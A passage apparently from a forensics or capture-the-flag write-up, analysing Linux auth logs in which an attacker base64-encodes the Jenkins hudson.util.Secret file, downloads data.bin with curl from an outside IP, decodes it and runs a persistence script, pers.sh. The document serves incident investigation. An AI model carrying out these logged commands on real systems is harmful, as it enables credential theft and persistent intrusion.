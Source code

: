 However, near the end of the logs show that the attacker gaining access to the Jenkins account and has downloaded malicious files to the system using jenkins-cli. Additionally, it seems that the attacker encoded the `/var/lib/jenkins/secrets/hudson.util.Secret` file in base64. This information might come in useful later so take note of it.

```
---SNIP---

May 17 13:18:29 kali sshd[9756]: Accepted password for sparkle from 192.168.222.151 port 41724 ssh2
May 17 13:18:29 kali sshd[9756]: pam_unix(sshd:session): session opened for user sparkle(uid=1001) by (uid=0)
May 17 13:18:29 kali systemd-logind[528]: New session 12 of user sparkle.
May 17 13:18:29 kali systemd: pam_unix(systemd-user:session): session opened for user sparkle(uid=1001) by (uid=0)
May 17 13:19:01 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/base64 /var/lib/jenkins/secrets/hudson.util.Secret
May 17 13:19:01 kali sudo: pam_unix(sudo:session): session opened for user root(uid=0) by sparkle(uid=1001)
May 17 13:19:01 kali sudo: pam_unix(sudo:session): session closed for user root
May 17 13:19:52 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/cat b64hudsonSecret
May 17 13:19:52 kali sudo: pam_unix(sudo:session): session opened for user root(uid=0) by sparkle(uid=1001)
May 17 13:19:52 kali sudo: pam_unix(sudo:session): session closed for user root
May 17 13:22:09 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/curl http://192.168.222.151:2212/data.bin --output data.bin
May 17 13:22:09 kali sudo: pam_unix(sudo:session): session opened for user root(uid=0) by sparkle(uid=1001)
May 17 13:22:09 kali sudo: pam_unix(sudo:session): session closed for user root
May 17 13:23:02 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/base58 -d data.bin
May 17 13:23:02 kali sudo: pam_unix(sudo:session): session opened for user root(uid=0) by sparkle(uid=1001)
May 17 13:23:02 kali sudo: pam_unix(sudo:session): session closed for user root
May 17 13:23:14 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/sed -i -e s/\r$// pers.sh
May 17 13:23:14 kali sudo: pam_unix(sudo:session): session opened for user root(uid=0) by sparkle(uid=1001)
May 17 13:23:14 kali sudo: pam_unix(sudo:session): session closed for user root
May 17 13:23:34 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/chmod +x pers.sh
May 17 13:23:34 kali sudo: pam_unix(sudo:session): session opened for user root(uid=0) by sparkle(uid=1001)
May 17 13:23:34 kali sudo: pam_unix(sudo:session): session closed for user root
May 17 13:23:44 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=./pers.sh
May 17 13:23:44 kali sudo: pam_unix(sudo:session): session opened for user root(uid=0) by sparkle(uid=1001)
May 17 13:23:44 kali sudo: pam_unix(sudo:session): session closed for user root
May 17 13:24:10 kali sshd[9798]: Received disconnect from 192.168.222.151 port 41724:11: disconnected by user
May 17 13:24:10 kali sshd[9798]: Disconnected from user sparkle 192.168.222.151 port 41724

---SNIP---
```
